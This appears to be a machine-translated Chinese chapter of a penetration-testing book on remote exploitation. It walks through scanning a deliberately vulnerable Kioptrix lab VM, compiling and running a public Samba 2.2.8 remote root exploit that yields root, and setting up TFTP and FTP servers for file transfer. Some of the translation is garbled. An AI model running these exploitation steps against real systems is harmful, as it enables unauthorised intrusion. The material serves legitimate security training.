



# 四、远程利用

我们已经收集了数据，审查了信息，并为渗透测试的下一阶段选择了一些可能的目标。现在是时候多走一步，证明发现的漏洞有可能影响底线了。毕竟，这是您的客户需要了解和理解的环境。在本章中，我们将快速回顾利用的基础知识，然后讨论更有趣的技术和方法，这些技术和方法将让我们了解我们正在测试的网络环境的真实安全态势。本章讨论的利益项目包括：

*   将易受攻击的机器添加到我们的沙盒虚拟网络中，可以让您按照本书中提供的示例进行操作
*   编译和/或重写互联网上的概念验证利用代码
*   使用公开可用的攻击代码手动攻击远程漏洞
*   向受害者计算机传输文件和从受害者计算机传输文件
*   用开膛手约翰破解密码
*   使用 THC Hydra 进行暴力强迫
*   Metasploit-学习并热爱它

# 剥削——何必费心？

您的潜在客户很有可能不了解执行全渗透测试的好处。仅仅枚举网络环境中的已知漏洞不足以真正了解公司联合安全控制的有效性；做好准备。

以下是全面利用此漏洞所提供的常见好处的快速列表：

*   **排除了猜测和怀疑：**通过提供关键基础设施设备被破坏的证据，从而证明机密数据可能被泄露、修改或不可用，问题变得“真实”管理团队将掌握采取补救措施所需的必要细节。
*   **实际验证缓解控制措施……缓解：**而不是盲目接受理论上的缓解控制措施确实有效。全面利用渗透测试使管理层能够证明安全措施按预期工作。
*   **发现安全体系结构中容易被忽略的漏洞：**安全环境的管理员可能会错误地认为他们的机密数据的机密性、完整性和可用性受到他们现有的各个安全层的保护。不幸的是，所有这些安全措施都有使事情变得更加复杂的内在风险，从而为攻击者利用漏洞带来新的可能性。完全利用漏洞渗透测试可验证网络中是否存在未知的安全缺陷。

为什么通过完全渗透测试快速检查网络健康状况对企业有用还有很多其他原因（除了可以检查复选框这一事实）。与企业主或经理会面时，尽量了解什么对他们的底线很重要，并尽量确定您的技能和服务如何与之相适应。

# 目标练习-添加 Kioptrix 虚拟机

渗透测试是一项需要实践才能达到完美的技能。为了鼓励吸收本章中的内容，我们将添加一个由[www.kioptrix.com](http://www.kioptrix.com)团队的 Steven McElrea（又名 loneferret）和 Richard Dinelle（又名 haken29a）提供的故意易受攻击的 Linux 发行版。到[去 http://www.kioptrix.com](http://www.kioptrix.com) 网站，选择您选择的语言，然后点击页面右侧的**Kioptrix VM Level 1**链接。


下载完成并将文件解压缩到所选文件夹后，我们需要在 Oracle VirtualBox 渗透测试实验室中创建一个新的虚拟机，并指导它使用我们下载的虚拟机：

*   名称：Kioptrix VM 1 级
*   操作系统类型：其他 Linux
*   内存：256
*   启动磁盘：Kioptrix 级别 1.vmdk（正常，3.00 GB）

请务必选择**使用现有硬盘**选项：


成功完成该过程后，您应验证您的设置是否符合以下要求：


尽管我们将讨论一些复杂的方法和技术，但最好使用一种简单的机制来真正了解我们的漏洞利用是如何工作的。通过消除复杂性，我们可以专注于课程，而不是耗时的故障排除。

### 提示

Kioptrix 1 级虚拟机将从 DHCP 服务器获取 IP 地址。如果尚未启用，则可以启用与 Oracle 虚拟机一起预装的内置 DHCP 服务器。您可以使用位于 Oracle 虚拟框中的命令行 VBoxManage 工具来配置此功能。下面是 `dhcpserver`add 命令的一个示例：

`VBoxManage dhcpserver add netname Wlan1 ip 192.168.75.100 netmask 255.255.255.0 lowerip 192.168.75.101 upperip 192.168.75.150 enable`

前面的命令将导致 virtual box 为连接到 `Wlan1`网络的网络适配器提供 DHCP 服务。任何在内部网络 `Wlan1`上请求 IP 的系统将收到一个介于 `192.168.75.101`和 `192.168.75.150`之间的地址。

**注意：**在 OSX 上，该命令将要求对所使用的每个选项进行双重定位。

有关 VboxManage 工具的更详细说明，请访问：[http://www.virtualbox.org/manual/ch08.html](http://www.virtualbox.org/manual/ch08.html) 。

要跟随本章中的许多示例，您需要启动并运行 Kioptrix。启动 VirtualBox，将网络适配器指向 Kioptrix，并将 Tester 1 会话回溯到 Wlan1，然后启动这两个会话。现在是时候回顾一些基本的利用方法了。

### 注

使用 `dhclient <interface name>`命令拾取 DHCP 地址回溯机器。示例： `dhclient int0`。

# 人工利用

此时，我们应该在虚拟环境中准备好两个系统：我们的 Kioptrix 1 级机器，它将成为我们的目标，以及我们的回溯机器，它将扮演攻击者的角色。在开始攻击之前，我们需要确定攻击计划。


## 枚举服务

我们将首先使用 `nmap`在我们的网络上定位机器。打开新的终端会话并键入：

```
nmap -f -n -P0 -v -p- -T4 192.168.75.0/24 

```

我们已指示 `nmap`使用**碎片化**数据包扫描 192.168.75.X 上的所有 TCP 端口以查找 IP。以下是结果摘要：

```
Scanning 192.168.75.14 [65535 ports]
Discovered open port 139/tcp on 192.168.75.14
Discovered open port 80/tcp on 192.168.75.14
Discovered open port 22/tcp on 192.168.75.14
Discovered open port 443/tcp on 192.168.75.14
Discovered open port 111/tcp on 192.168.75.14
Discovered open port 32768/tcp on 192.168.75.14
Completed SYN Stealth Scan at 10:24, 8.05s elapsed (65535 total ports)
Nmap scan report for 192.168.75.14
Host is up (0.00017s latency).
Not shown: 65529 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
139/tcp open netbios-ssn
443/tcp open https
32768/tcp open filenet-tms
MAC Address: 08:00:27:21:21:62 (Cadmus Computer Systems)
Read data files from: /usr/local/bin/../share/nmap
Nmap done: 256 IP addresses (3 hosts up) scanned in 202.60 seconds
Raw packets sent: 262797 (11.555MB) | Rcvd: 131203 (5.249MB)

```

看看突出显示的部分。您会注意到我们的目标机器有几个开放的 TCP 端口 `22, 80, 111, 139, 443`和 `32768`。

现在我们知道系统已经启动，并且结果表明有几个服务正在运行，我们有很多选择。我们可以使用 `netcat`或其他类似程序手动探测这些端口，以获取更多信息，并可能抓取一些横幅，或者我们可以从对相关目标机器进行更彻底的扫描开始。

### 使用 Unicornscan 快速扫描

请记住，在选择工具时，有许多可用的选项要考虑。独角兽扫描是一种非常快速的扫描仪，可以为我们快速扫描虚拟实验室。如果您的 Backtrack 版本未安装 unicornscan，请使用以下命令语法： `apt-get install Unicornscan`然后再尝试以下任何示例。

### 提示

在回溯 5 R1 中，您必须将 `GeoIP.dat`文件复制到您的 `etc`目录以避免错误。您可以执行以下命令来解决此错误：

```
cp /usr/share/GeoIP/GeoIP.dat /usr/local/etc/ unicornscan/ 

```

以下命令将使用每秒 `500`数据包（`-r500`扫描 `192.168.75.0/24`段上的所有 TCP 端口（`-mT`为默认扫描类型）。我们已指示命令在收到带有（`-I`选项的信息时向我们提供信息：

```
# unicornscan -mT -r500 -I 192.168.75.0/24 

```

其结果如下：

```
TCP open 192.168.75.14:32768 ttl 64
TCP open 192.168.75.14:22 ttl 64
TCP open 192.168.75.14:443 ttl 64
TCP open 192.168.75.14:139 ttl 64
TCP open 192.168.75.14:80 ttl 64
TCP open 192.168.75.2:80 ttl 64
TCP open 192.168.75.2:53 ttl 64
TCP open 192.168.75.14:111 ttl 64
TCP open domain[ 53] from 192.168.75.2 ttl 64
TCP open http[ 80] from 192.168.75.2 ttl 64
TCP open ssh[ 22] from 192.168.75.14 ttl 64
TCP open http[ 80] from 192.168.75.14 ttl 64
TCP open sunrpc[ 111] from 192.168.75.14 ttl 64
TCP open netbios-ssn[ 139] from 192.168.75.14 ttl 64
TCP open https[ 443] from 192.168.75.14 ttl 64
TCP open filenet-tms[32768] from 192.168.75.14 ttl 64 

```

我们还可以扫描打开的 UDP 端口以完成图片：

```
# unicornscan -mU -r500 -I 192.168.75.0/24 

```

这将在该特定虚拟网络上产生以下输出（扫描结果将根据您当前的实验室设置而有所不同）：

```
UDP open 192.168.75.2:53 ttl 64
UDP open 192.168.75.255:53 ttl 64
UDP open 192.168.75.2:161 ttl 64
UDP open 192.168.75.14:32768 ttl 64
UDP open 192.168.75.14:137 ttl 64
UDP open 192.168.75.14:111 ttl 64
UDP open domain[ 53] from 192.168.75.2 ttl 64
UDP open snmp[ 161] from 192.168.75.2 ttl 64
UDP open sunrpc[ 111] from 192.168.75.14 ttl 64
UDP open netbios-ns[ 137] from 192.168.75.14 ttl 64
UDP open filenet-tms[32768] from 192.168.75.14 ttl 64 
UDP open domain[ 53] from 192.168.75.255 ttl 64

```

仔细查看先前输出中突出显示的结果。此信息将用于确定对目标系统执行哪些攻击。

## Nmap 全扫描

现在我们已经知道了我们将瞄准哪个系统，让我们来看看目标 `nmap`扫描将为我们提供什么：

```
# nmap -n -sTUV -pT:22,80,111,139,443,32768,U:111,137,32768 192.168.75.14 

```

在这里，我们决定对开放端口进行 UDP 和 TCP 扫描，以确定它们的**状态**。我们使用 `-sTUV`开关通知 nmap 我们正在寻找 UDP 和 TCP，并提供软件版本；然后，我们使用 `-p`选项指定范围，后跟要扫描的端口。 `U:`指定端口为 UDP。以下是输出：

```
Starting Nmap 5.59BETA1 ( http://nmap.org ) at 2011-11-13 11:27 EST
Nmap scan report for 192.168.75.14
Host is up (0.00089s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 2.9p2 (protocol 1.99)
80/tcp open http Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp open rpcbind
139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp open ssl/http Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
32768/tcp open rpcbind
111/udp open rpcbind
137/udp open netbios-ns Microsoft Windows XP netbios-ssn
32768/udp open rpcbind
MAC Address: 08:00:27:21:21:62 (Cadmus Computer Systems)
Service Info: Host: KIOPTRIX; OS: Windows
Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.14 seconds

```

现在我们有了一些可以合作的东西。我们知道哪些端口是开放的，我们对哪些服务正在运行有很好的了解。

### 注

注意：OS:Windows 结果表明这是一台 Windows 机器，而它显然不是。审查所有数据以进行这些测定，而不是仅仅依靠一个结果，这一点非常重要。

如果查看结果，您可能会注意到此计算机上运行着许多过时的服务。我们将利用这一事实，利用众所周知的漏洞来破坏该单元。我们可能需要手动验证这些结果。我们现在将尝试抓取一些横幅，看看我们正在处理什么。

## 使用 Netcat 和 Ncat 抓取旗帜

Netcat 是一个非常强大的工具，可在枚举和利用阶段使用，甚至可用于传输文件或创建后门。我们还将 Netcat 与 Ncat 进行比较，Ncat 是 Nmap 团队提供的产品之一。

### 网猫抢旗

为了连接到 `192.168.75.14`上的 `80`端口，我们可以使用以下命令：

```
# nc 192.168.75.14 80 

```

这将把我们连接到 Kioptrix 机器上的 web 服务器。我们需要调用一个命令来接收信息输出。类型：

```
HEAD / HTTP 1.1 

```

按*回车*两次，查看输出：

```
HTTP/1.1 200 OK
Date: Fri, 11 Nov 2011 21:19:49 GMT
Server: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
Last-Modified: Thu, 06 Sep 2001 03:12:46 GMT
ETag: "8805-b4a-3b96e9ae"
Accept-Ranges: bytes
Content-Length: 2890
Connection: close
Content-Type: text/html

```

这看起来应该很熟悉。我们已经讨论了 HTTP 头的好处；上面的信息表明机器正在运行 Apache 1.3.20、RedHat Linux，使用的是 `mod_ssl`版本 2.8.4 和 `OpenSSL`版本 0.9.6b。

### 注

记录测试期间采取的任何行动是一种良好的做法。这将有助于您将来与客户的对话，并允许您在以后轻松地复制您的测试。

此过程也可以在其他端口上继续。

### 使用 Ncat 抓取旗帜

Ncat 也可用于抓取 `http`横幅。这就是你如何做到的：

```
# ncat 192.168.75.14 80 

```

Ncat 对此连接使用相同的语法 Netcat。键入以下内容并按两次*Enter*：

```
HEAD / HTTP 1.1 

```

我们将获得以下输出：

```
HTTP/1.1 200 OK
Date: Fri, 11 Nov 2011 21:50:53 GMT
Server: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
Last-Modified: Thu, 06 Sep 2001 03:12:46 GMT
ETag: "8805-b4a-3b96e9ae"
Accept-Ranges: bytes
Content-Length: 2890
Connection: close
Content-Type: text/html

```

快速搜索 `google.com`上的 `mod_ssl/2.8.4`将表明存在我们可以利用的漏洞。

### 通过 SMB 客户端抓取横幅

一个特别有趣的端口是 139/TCP。通过 `smbclient`工具，我们可以获取此服务器的横幅。让我们试一试：

```
# smbclient -L 192.168.75.14 -N 

```

此命令调用 `smbclient`并指示其连接到 `192.168.75.14`，然后显示服务器信息。 `-N`开关表示我们没有此连接的根密码。这将产生以下输出：

```
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]
Sharename Type Comment
--------- ---- -------
cli_rpc_pipe_open_noauth: rpc_pipe_bind for pipe \srvsvc failed with error ERRnosupport
IPC$ IPC IPC Service (Samba Server)
ADMIN$ Disk IPC Service (Samba Server)
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a] 
Server Comment
--------- -------
KIOPTRIX Samba Server
Workgroup Master
--------- -------
MYGROUP KIOPTRIX

```

请注意， `Samba`版本位于 `2.2.1a`。我们将使用此信息搜索此服务的任何已知漏洞。

## 搜索漏洞数据库

在 `Exploit-DB.com`您将能够找到大量关于已知漏洞的信息以及验证其有效性的概念验证代码。使用可用的概念验证代码可以确定您的特定软件是否容易受到这些攻击。概念验证代码还提供了一种机制来理解各个漏洞的基本原理，从而使您能够确保缓解控制功能正常运行。 `Exploit-DB.com`团队花费了大量的个人时间来确保提交的概念验证代码能够按照所述的方式工作。

### 注

如果您试图从沙盒虚拟实验室中访问此网站，则需要确保在回溯框上设置了网络适配器，以实现此目的。但是，建议您不要以任何方式将您的实验室连接到互联网。有几种安全的方法可以将文件传输到您的来宾计算机-试试吧！

让我们搜索与 Samba 2.2.1a 版相关的漏洞。

1.  转到[http://www.exploit-db.com](http://www.exploit-db.com) 。
2.  Click on `Search` in the top navigation bar.

    

3.  一旦进入搜索页面，在**说明：**字段中键入**Samba**。
4.  在**端口：**字段中键入**139**。
5.  Click on the **SEARCH** button.

    

如果有任何结果，您将看到与您的搜索匹配的漏洞列表。我们需要查看这些结果，看看是否有任何结果符合我们的需要。

## 利用手边的 DB

使用 BackTrack 的一个非常棒的方面是，团队自动将 `exploit-db.com`数据库的本地副本作为分发的一部分。您可以通过转到 `/pentest/exploits/exploitdb`并使用 `./searchsploit`命令后跟搜索词来搜索此列表。

```
# ./searchsploit samba 

```

这将导致以下输出：

```
Description Path
------------------------------------------------------------- Samba 2.2.x Remote Root Buffer Overflow Exploit /linux/remote/7.pl
Samba 2.2.8 Remote Root Exploit - sambal.c /linux/remote/10.c 
Samba 2.2.8 (Bruteforce Method) Remote Root Exploit /linux/remote/55.c
MS Windows XP/2003 Samba Share Resource Exhaustion Exploit /windows/dos/148.sh
Samba <= 3.0.4 SWAT Authorization Buffer Overflow Exploit /linux/remote/364.pl
Sambar FTP Server 6.4 (SIZE) Remote Denial of Service Exploit /windows/dos/2934.php
GoSamba 1.0.1 (include_path) Multiple RFI Vulnerabilities /php/webapps/4575.txt
Samba 3.0.27a send_mailslot() Remote Buffer Overflow PoC /linux/dos/4732.c
Samba (client) receive_smb_raw() Buffer Overflow Vulnerability PoC /multiple/dos/5712.pl
Samba (client) receive_smb_raw() Buffer Overflow Vulnerability PoC /multiple/dos/5712.pl
Samba < 3.0.20 Remote Heap Overflow Exploit (oldie but goodie) /linux/remote/7701.txt
Samba 2.2.0 - 2.2.8 trans2open Overflow (OS X) /osX/remote/9924.rb
Samba 2.2.x nttrans Overflow /linux/remote/9936.rb
Samba 3.0.21-3.0.24 LSA trans names Heap Overflow /linux/remote/9950.rb
Samba 3.0.10 - 3.3.5 Format String And Security Bypass Vulnerabilities /multiple/remote/10095.txt
Samba Multiple DoS Vulnerabilities /linux/dos/12588.txt
Samba ""username map script"" Command Execution /unix/remote/16320.rb
Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow /linux/remote/16321.rb
Samba lsa_io_trans_names Heap Overflow /solaris/remote/16329.rb
Samba trans2open Overflow (Solaris SPARC) /solaris/sparc/remote/16330.rb
Sambar 6 Search Results Buffer Overflow /windows/remote/16756.rb
Samba lsa_io_trans_names Heap Overflow /linux/remote/16859.rb
Samba chain_reply Memory Corruption (Linux x86) /linux/remote/16860.rb
Samba trans2open Overflow (Linux x86) /linux/remote/16861.rb
Samba lsa_io_trans_names Heap Overflow /osX/remote/16875.rb
Samba trans2open Overflow (Mac OS X PPC) /os-x/ppc/remote/16876.rb
Samba trans2open Overflow (*BSD x86) /linux/remote/16880.rb

```

我们将尝试位于 `/linux/remote/10.c`的 `Samba 2.2.8 Remote Root Exploit - sambal.c`。此特定漏洞已使用 C 语言编码，因此必须在使用前编译。

```
# cp /pentest/exploits/exploitdb/platforms/linux/remote/10.c /root/10.c 

```

这个命令将把文件复制到我们选择的目录中，在本例中为 `/root`，使其更易于使用。有时文件可能会立即编译；在这种情况下，您可以简单地运行以下命令并进入下一阶段。

### 注

**小心！**

理解正在编译的代码至关重要。此时，我们正在一个受限的实验室环境中进行测试，但当需要在与外部世界相连的环境中开始执行这些任务时，代码必须干净且来源可靠，这一点至关重要。在您尝试攻击其他人的网络之前，您应该了解攻击代码的每个阶段。许多人都同意，最好的办法是创建自己的外壳代码以供手动利用，这样您就可以确切地知道运行它时会发生什么。在将此类代码投入实际生产之前，请在您自己包含的虚拟环境中对其进行单元测试，以充分了解您正在运行的代码的影响，尤其是在您选择的漏洞包括外壳代码的情况下。

### 编译代码

在这里，我们将在检查代码后尝试编译 10.c 而不做任何修改。对于使用 C 语言编写的每种类型的利用漏洞代码，此处执行的步骤类似。

```
# vim 10.c 

```

查看此代码。滚动浏览它，看看您是否能够理解运行此代码时会发生什么。

### 提示

如果您不熟悉 VIM，有几个网站提供了对这个复杂但功能强大的工具的详细介绍。Packt Publishing 还有*Hacking VIM 7.2*可供购买，如果您想以简洁、实用的方式了解更多信息。现在，当您在 VIM 中时，可以使用 `:q`退出返回 shell 提示符。



### 编制概念验证代码

一旦代码被检查过，试着编译它。使用 `:q`命令序列退出 VIM，并在命令提示下键入以下内容：

```
# gcc 10.c -o SambaVuln10 

```

我们正在调用 GCC 编译器，并将我们的 10.c 源代码文件输入到要处理并输出到文件 `SambaVuln`中。如果一切按计划进行，您将不会收到任何反馈，并且将显示命令提示符。

### 注

一些人认为，编译概念验证漏洞的难度将减少脚本小子的数量，因为他们缺乏解决代码故障的技能。

一些安全研究人员甚至可能会添加故意错误，如打字错误，以阻止脚本小子将概念验证代码用于恶意使用。

如果您在编译过程中遇到任何问题，您需要仔细查看代码并解决问题，然后才能正确编译。

### 代码故障排除

您可能会遇到的错误类型包括注释不当的代码、额外字符、无效格式，甚至故意在代码中输入无效代码，使新手更难编译。

让我们来看看在从存储库直接使用代码时出现的一个常见问题。

#### 这些^M 角色都是什么？为什么它们不会消失？

您可能会看到您的代码，并意识到您有一些（或许多！）不需要的字符，例如^M，无论您如何努力，它们都不会消失。您可以使用 VIM 为您解决此问题，方法是在 VIM 中打开您的违规文件并键入 `:%s/`，按*Ctrl+V*，然后按*Ctrl+M*，然后按 `//g`，结果如下。

```
:%s/^M//g

```

然后按*进入*。这将指示 VIM 删除整个文件（%s）中出现的所有**^M**。下面是我们将使用此命令删除的内容的示例：


#### 断线——重逢

有时代码的格式会不正确。需要注意的是，这将使 GCC 很难处理。仔细检查代码，确保一切正常。


一旦代码被检查并且错误被纠正，尝试再次编译它，直到没有进一步的错误。

## 运行漏洞攻击

希望前一步相当轻松；清理其他人提供的代码可能是一个麻烦的过程。如果漏洞代码编译正确，我们可以简单地执行它以查看预期的其他输入：

```
# ./SambaVuln10 

```

此命令的输出如下所示：

```
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./SambaVuln10 [-bBcCdfprsStv] [host]
-b <platform> bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step> bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay> bruteforce/scanmode delay in micro seconds (default = 100000)
-f force
-p <port> port to attack (default = 139)
-r <ret> return address
-s scan mode (random)
-S <network> scan mode
-t <type> presets (0 for a list)
-v verbose mode

```

我们已经知道关于目标机器的几个关键项目，包括它很可能运行 Linux，IP 地址是 192.168.75.14。让我们使用漏洞的扫描模式来查看是否有我们遗漏的有趣内容：

```
./SambaVuln10 -v -d 0 -S 192.168.75 

```

```
Samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Scan mode.
+ Verbose mode.
+ [192.168.75.14] Samba

```

我们可以看到，我们的目标机器是通过 `eSDee`在[www.netric.org](http://www.netric.org)上进行的概念验证远程根攻击发现的。现在我们将继续前进，最终利用这台机器。

```
# ./SambaVuln10 -b 0 -v 192.168.75.14 

```

我们调用 `SambaVuln10`文件；让它知道目标系统是 Linux，并提供显示详细结果的说明。结果如下：

```
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Using ret: [0xbffffc7c]
+ Using ret: [0xbffffb50]
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)

```

如果您是 pentesting 的新手，这个输出可能有点混乱。您刚刚获得了目标机器上的 root 访问权限，此时可以开始许多利用后步骤，这些步骤通常是在网络中获得良好立足点所必需的。您会注意到有些命令不起作用，有些命令起作用。请尝试以下操作：

```
# ls 

```

嗯……什么都没发生。也许你没有得到根？让我们试试别的。

```
# cd /
# ls

```

更像是这样！现在您应该看到完整的目录列表 `/`。

```
bin
boot
dead.letter
dev
etc
home
initrd
lib
lost+found
misc
mnt
opt
proc
root
sbin
tmp
usr
var

```

此时您还可以使用许多其他命令，我们将用一整章的篇幅专门讨论后利用中的一些技巧。在继续之前，我们将再进行一次检查，看看这台机器上是否有任何有趣的东西：

你到底是谁在这台机器上？

```
whoami 

```

```
root

```

我连接到哪个系统？

```
hostname 

```

```
kioptrix.level1

```

```
lastlog 

```

谁已登录此系统以及何时登录？

```
Username Port From Latest
root pts/0 192.168.1.200 Mon Oct 12 07:27:46 -0400 2009
bin **Never logged in**
daemon **Never logged in**
adm **Never logged in**
lp **Never logged in**
sync **Never logged in**
shutdown **Never logged in**
halt **Never logged in**
mail **Never logged in**
news **Never logged in**
uucp **Never logged in**
operator **Never logged in**
games **Never logged in**
gopher **Never logged in**
ftp **Never logged in**
nobody **Never logged in**
mailnull **Never logged in**
rpm **Never logged in**
xfs **Never logged in**
rpc **Never logged in**
rpcuser **Never logged in**
nfsnobody **Never logged in**
nscd **Never logged in**
ident **Never logged in**
radvd **Never logged in**
postgres **Never logged in**
apache **Never logged in**
squid **Never logged in**
pcap **Never logged in**
john pts/0 192.168.1.100 Sat Sep 26 11:32:02 -0400 2009
harold **Never logged in**

```

正如您可能已经知道的，攻击者可以通过运行这个简单的概念验证代码在这台机器上获得根目录，这是一个主要问题。您应该建议您的客户端将所有已安装的软件更新到最新版本，以避免这种简单的妥协。

# 在受害者机器之间获取文件

在远程机器上获得 root 用户可能很有趣，而且肯定是朝着正确方向迈出的重要一步（并且根据您的范围和测试目的，可能是唯一必要的一步）。如果您的任务尚未完成，那么您将需要找到在受害者机器之间传输数据的方法。有几种工具可以帮助完成这项任务；从长远来看，以下几点可能会让你的生活更轻松。

## 在回溯 5 上安装和启动 TFTP 服务器

TFTP 有时非常方便。许多系统已经安装了 TFTP 客户机，使用该协议既快捷又方便。

```
# apt-get install atftpd 

```

### 注

在安装过程中，请确保回溯机器已启用 Internet。在命令提示下熟悉**atftpd**服务器类型 `atftpd`，无需任何额外输入。

将 TFTP 作为独立守护进程启动，在标准端口上指向 `/tmp`并绑定到 IP 地址 `192.168.75.12`，可以通过键入以下命令来完成：

```
# atftpd --daemon --port 69 --bind-address 192.168.75.12 /tmp 

```

您可以通过调用 netstat 和 grepping for 69 来检查守护进程是否正确启动。

```
# netstat -anu |grep 69 

```

如果一切都正确启动，您应该会看到类似的情况：

```
udp 0 0 192.168.75.12:69 0.0.0.0:*

```

## 安装和配置纯 ftpd

如果您的 BackTrack 版本没有安装纯 ftpd，可以使用 `apt-get install pure-ftpd`命令添加。要实现纯 ftpd 的全部功能，您需要在使用前添加用户并执行其他较小的配置更改。

```
# echo /etc/pure-ftpd/pureftpd.pdb > PureDB 

```

将 `/etc/pure-ftpd/pureftpd.pdb`添加到**PureDB**配置文件中：

```
# ln -s /etc/pure-ftpd/conf/PureDB /etc/pure-ftpd/auth/50pure 

```

创建指向 `50pure`文件的符号链接：

```
# groupadd -g 7777 ftpz 

```

将组添加到回溯来宾计算机：

```
# useradd -u 7777 -s /bin/false -d /dev/null -c "pureFTP" -g ftpz Testerz 

```

创建要使用的文件夹：

```
# mkdir /var/ftp /var/ftp/public /var/ftp/public/ftplogin 

```

修改所有权：

```
# chown -R Testerz:ftpz /var/ftp/public/ftplogin 

```

将帐户添加到系统中：

```
# pure-pw useradd ftplogin -u Testerz -d /var/ftp/public/ftplogin 

```

```
Password: password
Enter it again: password

```

设置可用于 FTP 连接的虚拟帐户：

```
# pure-pw mkdb 

```

重新加载数据库：

```
# pure-pw show ftplogin 

```

在纯 FTP 数据库中执行快速查找，让我们了解用户统计信息。

```
Login : ftplogin
Password : $1$/NF5jAg0$I0oRJKViA5NYs455Afelr1
UID : 7777 (Testerz)
GID : 7777 (ftpz)
Directory : /var/ftp/public/./
Full name :
Download bandwidth : 0 Kb (unlimited)
Upload bandwidth : 0 Kb (unlimited)
Max files : 0 (unlimited)
Max size : 0 Mb (unlimited)
Ratio : 0:0 (unlimited:unlimited)
Allowed local IPs :
Denied local IPs :
Allowed client IPs :
Denied client IPs :
Time restrictions : 0000-0000 (unlimited)
Max sim sessions : 0 (unlimited)

```

## 启动纯 ftpd

以下命令将启动 `pure-ftpd:`

```
#/etc/init.d/pure-ftpd start 

```

您将看到以下输出：

```
Starting ftp server: Running: /usr/sbin/pure-ftpd -l pam -8 UTF-8 -E -u 1000 -O clf:/var/log/pure-ftpd/transfer.log -B

```

可以通过连接到本地主机来测试此服务器：

```
# ftp 127.0.0.1 

```

输出应类似于以下内容：

```
Connected to 192.168.75.12.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 50 allowed.
220-Local time is now 17:02\. Server port: 21.
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
Name (192.168.75.12:root): ftplogin
331 User ftplogin OK. Password required
Password:
230-User ftplogin has group access to: 7777
230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>

```

### 注

Apple T0.生产与受控测试实验室环境：OUTT1。考虑在您的生产回溯实例中设置专用用户帐户和适当的安全措施。确保向 FTP 帐户提供写入文件所需的权限；当从受害者机器进行这些尝试时，预期会收到错误。

# 密码：你知道的东西…

在这个时代，人们会假设所有系统都使用多因素身份验证。不幸的是，情况并非如此。即使是所谓的“安全网络”也仍然使用发送明文密码的协议，系统使用的是不安全的加密协议，等等。一项基本技能（如国际象棋中的基本技能：易学难掌握）是破解密码的艺术。我们将从几个简单的例子开始，以巩固这个概念，然后讨论该领域中最优秀的人所使用的一些策略。

## 破解散列

忙碌的用户甚至管理员经常重复使用密码。无论系统在网络上有多重要，一旦您获得密码散列的访问权限，它们应该立即被破解并添加到您现有的任何字典文件中。这可能会节省大量时间。

首先，我们需要从受害者机器中提取一些文件。启动 BackTrack Tester 1 和 Kioptrix 1 级来宾计算机，运行您之前编译的漏洞利用，并向下拉 `passwd`文件，以便我们可以对其运行 Jack。

1.  启动实验室中所有必要的虚拟设备（回溯测试仪 1，Kioptrix）。
2.  运行 `./SambaVuln_10 -b 0 192.168.75.14`。
3.  您现在以 root 用户身份连接到 `kioptrix.level1`。
4.  打开一个新的终端会话并在回溯来宾机器上启动 `pure-ftpd`。
